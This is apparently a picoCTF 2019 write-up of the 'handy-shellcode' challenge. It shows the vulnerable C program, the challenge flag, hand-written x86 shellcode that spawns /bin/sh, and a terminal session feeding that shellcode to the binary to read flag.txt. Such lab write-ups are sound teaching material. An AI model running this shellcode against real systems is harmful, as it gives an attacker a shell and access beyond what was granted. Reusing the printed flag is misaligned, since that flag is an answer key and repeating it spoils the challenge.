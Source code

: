 
# Binary Exploitation - handy-shellcode (50 points)

## Challenge

*This program executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_6_f0b84e12a8162d64291fd16755d233eb on the shell server. Source.*

![Challenge](./_images/binary_exploitation_handy-shellcode_challenge.png)

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing now...");
  
  ((void (*)())buf)();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}
```

## Flag

picoCTF{h4ndY_d4ndY_sh311c0d3_15d47ccd}

## Walkthrough

The function `void vuln(char *buf)` is vulnerable to a buffer overflow, because of a call to `gets()` (no boundaries) rather than `fgets()` (which read only a limited number of char). But, this is not what we are going to use here.

The end of *vuln.c* cast `buf` as pointer to a function taking no arguments and returning void. Hence, we can inject a shellcode in `buf` to spawn a shell.

Let's create a simple shell code to invoke `/bin/sh` using a system call to `sys_execve()`.

```asm
; shellcode.nasm
bits 32

shellcode:
    ; reset registers
    xor eax, eax
    xor ebx, ebx
    xor ecx, ecx
    xor edx, edx

    ; push null terminator and //bin/sh on the stack
    ; to keep bytes alignment.
    push eax
    push 0x68732f6e
    push 0x69622F2F
    
    ; /bin/sh\0 on top of the stack
    mov ebx, esp

    ; system call to sys_execve (system call 11)
    mov al, 11
    int 0x80
```

Now let's assemble it :

```bash
> nasm -f elf32 -o shellcode.o shellcode.nasm
> ld -m elf_i386 -s -o shellcode shellcode.o
```

And dump the shellcode :

```
> hexdump -v -e '"\\""x" 1/1 "%02x" ""' shellcode
\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80\x00\x2e\x73\x68\x73\x74\x72\x74\x61\x62\x00\x2e\x74\x65\x78\x74
```

OK, let's try this in the vulnerable binary :

```bash
m3oow@pico-2019-shell1:/problems/handy-shellcode_6_f0b84e12a8162d64291fd16755d233eb$ (echo -en "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80\x00\x2e\x73\x68\x73\x74\x72\x74\x61\x62\x00\x2e\x74\x65\x78\x74"; cat -) | ./vuln
Enter your shellcode:

1�1�1�1�Phn/shh//bi��
                    ̀
Thanks! Executing now...
ls
flag.txt  vuln  vuln.c
cat flag.txt
picoCTF{h4ndY_d4ndY_sh311c0d3_15d47ccd}
```

